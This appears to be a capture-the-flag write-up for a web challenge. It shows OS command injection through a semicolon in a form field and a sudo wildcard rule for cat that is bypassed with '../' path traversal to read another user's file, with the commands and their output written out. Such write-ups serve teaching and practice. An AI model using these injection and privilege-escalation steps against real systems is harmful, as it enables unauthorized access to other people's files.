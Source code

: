 # Intro
![](../img/TBOTD.png)

# Information gathering
Accessing the site displays a input field. Entering any text and submitting returns the content as part of a longer string / story in the "result-container".
![](../img/TBOTD_App.png)

When entering a text in the input field a ```POST``` request is made with a parameter in the body called ```name```.
```http
POST / HTTP/1.1
Host: 64.225.103.251:5006
Cookie: session=eyJpbnN0YW5jZV9pZCI6IjBkMjc0YjQzLTI3ZGMtNDNjOC1iN2I4LTIwOWEzYTc3M2ZhNiJ9.aBXj6Q.5ogh482Q7oyDZzviq1LqbGdfoOo
Content-Length: 8
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: https://64.225.103.251:5006
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://64.225.103.251:5006/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

name=whoami
```

The applications seems to handle special characters as just text in the app. The app just returns and displays  the content of the input.  
![](../img/TBOTD_Special_character.png)


But when entering a semicolon before the content something interesting is displayed in the page source. A "System Log" is returned with the results of the command. This could be a feature added by the developer for debugging or easy access to the server. Or it could be a bug or unsafe function in the application and the semicolon breaks out of the function executing and executing the command entered after the semicolon.  
![](../img/TBOTD_Semicolon_system_log.png)

# Attack
The user that executing the commands is ```www-data```.
```
whoami

<!-- System Log: www-data -->
```

The files in the same directory as the application context are:
```
ls

<!-- System Log: ritual_1.log  ritual_2.log  ritual_3.log -->
```

Extracting the data in these files give some hints of where the ```sacred_scroll.txt``` (probably the flag) is hidden. One log also hints about that ```sudo``` may be necessary.  
```
cat ritual_1.log

<!-- System Log: Ritual 1 performed at 2025-04-22 08:15:23
Offering: wheat
Presiding Priest: Amenhotep
Note: High Priest keeps sacred_scroll.txt in their home directory. -->
```

```
cat ritual_2.log

<!-- System Log: Ritual 2 performed at 2025-04-22 10:30:45
Offering: bread
Presiding Priest: Ramose
Warning: Remember that the power of sudo must be wielded with precision. Always specify the full path to commands. -->
```

```
cat ritual_3.log

<!-- System Log: Ritual 3 performed at 2025-04-22 14:22:10
Offering: gold
Presiding Priest: Ptahmose
Note: Guard the sacred /path/, for each /traversal/ may awaken curses best left untouched. -->
```

Checking what ```sudo``` privileges the context user is given. The user ```www-data``` is able to execute the ```/usr/bin/cat /var/log/ritual/*``` as the user ```high_priest``` with out needing to enter a password.
```
sudo -l

<!-- System Log: User www-data may run the following commands on oracle-server:
    (high_priest) NOPASSWD: /usr/bin/cat /var/log/ritual/*
 -->
```

Using `sudo -u`, a command can be executed as another user. In this case, it allows the execution of `/usr/bin/cat /var/log/ritual/*` as the `high_priest` user. The wildcard `*` means any file or sub directory under `/var/log/ritual/` can be targeted.

However, if the `sudo` rule is not strictly validating the full resolved path (i.e., it only checks that the command starts with `/usr/bin/cat /var/log/ritual/`), then directory traversal using `../` can potentially bypass the intended restriction. By using `../../../`, it's possible to navigate back to the root (`/`), and then access files elsewhere in the system, such as `/home/high_priest/sacred_scroll.txt`.
```
sudo -u high_priest /usr/bin/cat /var/log/ritual/../../../home/high_priest/sacred_scroll.txt

<!-- System Log: O24{th3_scr1b3_r3v34ls_h1dd3n_tr34sur3s} -->
```